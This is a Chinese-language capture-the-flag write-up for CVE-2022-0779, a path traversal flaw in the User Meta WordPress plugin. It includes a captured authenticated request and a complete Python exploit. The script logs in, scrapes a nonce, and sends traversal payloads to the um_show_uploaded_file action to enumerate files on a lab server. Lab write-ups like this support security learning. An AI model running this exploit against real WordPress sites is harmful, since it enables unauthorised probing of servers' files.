

# CVE-2022-0779

:::info

Tags

- wordpress 插件 User Meta 本地文件枚举

官方数据库记录

> 2.4.4 之前的 User Meta WordPress 插件不会验证其 um_show_uploaded_file AJAX 操作的文件路径参数，这可能允许低权限用户（例如订阅者）通过路径遍历负载枚举 Web 服务器上的本地文件
>
> User Meta 本地文件枚举。flag 生成规则请访问 1.txt。账户信息：test

:::

参考 [User Meta < 2.4.4 – Subscriber+ Local File Enumeration via Path Traversal | CVE 2022-0779 | Plugin Vulnerabilities](https://wpscan.com/vulnerability/9d4a3f09-b011-4d87-ab63-332e505cf1cd/)

访问 `http://eci-2zed7yu7fshvsqv7qv3v.cloudeci1.ichunqiu.com/1.txt` 获取 flag 生成规则

```plaintext
flag 的路径为 http://ip/ + 随机字符串

长度为 10，小写字母 + 数字

该随机字符串在 /flagfile 目录下有备份，命名规则如下：

如随机字符串为 12345admin，那其在 /flagfile 目录下的文件为：

01
12
23
34
45
5a
6d
7m
8i
9n
```

使用 `test:test` 登录 Wordpress 的后台 `http://eci-2zed7yu7fshvsqv7qv3v.cloudeci1.ichunqiu.com/wp-login.php`



获取到登录后的请求参数

```plaintext
GET /wp-admin/index.php HTTP/1.1
Host: eci-2zed7yu7fshvsqv7qv3v.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://eci-2zed7yu7fshvsqv7qv3v.cloudeci1.ichunqiu.com/wp-admin/
DNT: 1
Connection: keep-alive
Cookie: wordpress_d8f4bdf7c62ddfe0cbe24ae6b6d5e410=test%7C1721986213%7CXwsz4QFoETnlFHCtKjTAcqROncqMOv4cesddBVEE94I%7Cf2b1fe78d121e6aef7d9a93c4a6bc1f719d91436d33d62b4518ac7e71a32ad46; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_d8f4bdf7c62ddfe0cbe24ae6b6d5e410=test%7C1721986213%7CXwsz4QFoETnlFHCtKjTAcqROncqMOv4cesddBVEE94I%7C09bcfa1c494b6e1d93e31dbfa71948dc2b940f9d6ab994aa0e577a78a759308c; wp-settings-time-2=1721813415
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

结合 poc 信息，尝试利用

```python
import requests
import string
from urllib.parse import urlparse


req_arg_url = "http://eci-2ze2dtnd1qw9c9h330sc.cloudeci1.ichunqiu.com/"

req_arg_cookies_text = requests.post(
    f"{urlparse(req_arg_url).scheme}://{urlparse(req_arg_url).netloc}/wp-login.php",
    data={"log": "test", "pwd": "test", "wp-submit": "%E7%99%BB%E5%BD%95", "testcookie": 1},
).headers.get("Set-Cookie")

req_arg_cookies_list = [i.replace("HttpOnly, ", "").replace("", "").strip() for i in req_arg_cookies_text.split("; ")]
req_arg_cookies_list = [i for i in req_arg_cookies_list if (i.startswith("wordpress_"))]
req_arg_cookies = "; ".join((req_arg_cookies_list))

req_headers_pf_nonce = {
    "Host": f"{urlparse(req_arg_url).netloc}",
    "Accept-Language": "zh-CN",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Cookie": f"{req_arg_cookies}",
    "Connection": "keep-alive",
}

req_arg_pf_nonce_raw = requests.get(
    f"{urlparse(req_arg_url).scheme}://{urlparse(req_arg_url).netloc}/wp-admin/index.php", headers=req_headers_pf_nonce
)
req_arg_pf_nonce_raw = [i for i in req_arg_pf_nonce_raw.text.split("\n") if "pf_nonce" in i][0].split("'")

for i in range(len(req_arg_pf_nonce_raw)):
    if "pf_nonce=" in req_arg_pf_nonce_raw[i]:
        req_arg_pf_nonce = req_arg_pf_nonce_raw[i + 1]
        break


def func(filepath: str, host=urlparse(req_arg_url).netloc) -> str:
    reqUrl = f"http://{host}/wp-admin/admin-ajax.php"
    headersList = {
        "Host": f"{host}",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Referer": f"http://{host}/wp-admin/admin-ajax.php",
        "Content-Type": "application/x-www-form-urlencoded",
        "Content-Length": "173",
        "Origin": f"http://{host}",
        "DNT": "1",
        "Connection": "keep-alive",
        "Cookie": f"{req_arg_cookies}",
        "Upgrade-Insecure-Requests": "1",
        "Priority": "u=0, i",
    }
    payload = f"field_name=test&filepath=%2F..%2F..%2F..%2F..%2F..%2F..%2F..{filepath}&field_id=um_field_4&form_key=Upload&action=um_show_uploaded_file&pf_nonce={req_arg_pf_nonce}&is_ajax=true"
    response = requests.request("POST", reqUrl, data=payload, headers=headersList)
    return response.text


filename_result = ""

try:
    from rich.progress import Progress

    with Progress() as progress:
        first_progress = progress.add_task("[green]First letter Loop...", total=10)
        for first_letter in range(10):
            second_progress = progress.add_task("[cyan]Second letter Loop...", total=len(string.digits + string.ascii_letters))
            for second_letter in string.digits + string.ascii_letters:
                file_name = str(first_letter) + str(second_letter)
                file_path = f"/flagfile/{file_name}"
                if "um_remove_file" in func(file_path):
                    print("[+] " + file_name)
                    filename_result += file_name[1]
                    break
                progress.update(second_progress, advance=1)
            progress.update(first_progress, advance=1)
            progress.remove_task(second_progress)
except:
    for first_letter in range(10):
        for second_letter in string.digits + string.ascii_letters:
            file_name = str(first_letter) + str(second_letter)
            print(file_name)
            file_path = f"/flagfile/{file_name}"
            if "um_remove_file" in func(file_path):
                print("[+] " + file_name)
                filename_result += file_name[1]
                break

print(f"[+] flag_path: {filename_result.lower()}")
flag_url = f"{urlparse(req_arg_url).scheme}://{urlparse(req_arg_url).netloc}/{filename_result.lower()}"
print(f"[+] flag_url: {flag_url}")
# debug
print(requests.get(flag_url).status_code)
print(requests.get(flag_url).text)
if requests.get(flag_url).status_code == 200:
    print("[+] flag: {flag_data}".format(flag_data=requests.get(flag_url)))
else:
    print("[!] Something error")
```
